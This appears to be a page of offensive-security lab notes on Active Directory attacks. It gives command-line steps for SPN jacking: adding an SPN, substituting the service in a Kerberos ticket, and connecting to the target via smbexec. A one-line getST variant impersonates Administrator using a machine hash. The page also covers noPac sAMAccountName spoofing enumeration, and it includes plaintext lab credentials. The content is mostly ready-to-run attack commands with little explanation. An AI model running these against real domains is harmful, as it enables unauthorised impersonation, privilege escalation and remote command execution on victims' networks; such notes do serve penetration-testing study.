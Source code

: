 Add SPN to target machine.

```bash
python3 addspn.py 172.16.92.10 -u 'zencorp.local\gabriel' -p Godisgood001 --spn 'dmserver/DBSRV003' -t 'WEB01$' -dc-ip 172.16.92.10
```

Get more details about a ticket

```bash
describeTicket.py Administrator@dmserver_DBSRV003@ZENCORP.LOCAL.ccache
```

Replace SPN in ticket

```bash
python3 tgssub/examples/tgssub.py -in Administrator@dmserver_DBSRV003@INLANEFREIGHT.LOCAL.ccache -altservice "cifs/WEB01" -out newticket.ccache
```

Finally connect to target

```bash
KRB5CCNAME=newticket.ccache proxychains4 -q smbexec.py -k -no-pass WEB01
```

{% hint style="info" %}
All of the aboven in 1 command for Live SPN jacking

```
getST.py -spn 'dmserver/DBSRV003' -impersonate Administrator 'inlanefreight.local/SRV01$' -hashes :ef3d150ee77eb9000001236c52bd2793 -dc-ip 172.16.92.10 -altservice "cifs/WEB01.zencorp.local"
```
{% endhint %}

### <mark style="color:yellow;">sAMAccountName Spoofing</mark>

In Active Directory computers account names end with a `$` to distinguish them from user accounts. With right permissions its possible to change the `sAMaccountName` to the account name of a domain controller without `$`. Then trick the KDC by requesting a service ticket for a non-existent account it will append a `$` and search again.&#x20;

<details><summary>Privilege Attribute Certificate (PAC)</summary></details>

#### Enumeration from Windows

```powershell
# Scan with nopac
.\noPac.exe scan -domain zencorp.local -user aneudy -pass Ilovemusic01

# Get MachineAccountQuota
(Get-DomainObject -SearchScope Base)."ms-ds-machineaccountquota"
```

{% hint style="info" %}
A user can join up to 10 machines, after that no more. This is important to understand as we may get access to an account that has already reached that quota.&#x20;
{% endhint %}
